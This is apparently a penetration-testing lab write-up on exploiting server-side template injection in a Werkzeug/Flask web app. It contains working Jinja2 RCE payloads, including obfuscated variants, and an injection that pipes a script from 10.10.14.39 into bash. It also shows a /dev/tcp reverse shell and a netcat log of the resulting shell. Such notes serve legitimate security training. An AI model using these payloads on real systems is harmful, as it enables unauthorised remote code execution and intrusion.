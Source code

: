 Googled `werkzeug ssti 2.0.2` exploit and came across exploit notes
![[Pasted image 20240502091118.png]]
Navigating to the webpage shows `SSTI (Server-Side Teamplate Injection)` which shows things to try
![[Pasted image 20240502091040.png]]
trying the 1st one worked `{{ 4*2 }}`
![[Pasted image 20240502091756.png]]
2nd one worked `{{ config.items() }}`
```bash
No results for dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)]) 
```
![[Pasted image 20240502092039.png]]
# RCE Testing

`{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}` 
`{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}`
`{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}`
`{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}`
- New user `Walter`
![[Pasted image 20240502093515.png]]

# Initial Access Reverse Shell

reverse shell input 
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.39:8000/revshell.sh | bash').read()}}
```
![[Pasted image 20240502101737.png]]

python3 server setup
```bash
┌──(kali㉿gobots)-[02May2024 13:49:23]-[~/SUT/10.10.110.60]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.110.60 - - [02/May/2024 13:50:42] "GET /revshell.sh HTTP/1.1" 200 -
```

revshell.sh
```bash
┌──(kali㉿gobots)-[02May2024 13:51:37]-[~/SUT/10.10.110.60]
└─$ cat revshell.sh 
bash -c "bash -i >& /dev/tcp/10.10.14.39/4444 0>&1"
```

```bash
Script started, output log file is '/home/kali/SUT/logs/termlogs/20240502_134901_shell.log'.
┌──(kali㉿gobots)-[02May2024 13:49:15]-[~]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.110.60] 47436
bash: cannot set terminal process group (1003): Inappropriate ioctl for device
bash: no job control in this shell
walter@APP01-Hades:~/app$ getuid
getuid
Command 'getuid' not found, did you mean:
  command 'setuid' from deb super (3.30.3-2)
Try: apt install <deb name>
walter@APP01-Hades:~/app$ 

```
![[Pasted image 20240502101424.png]]
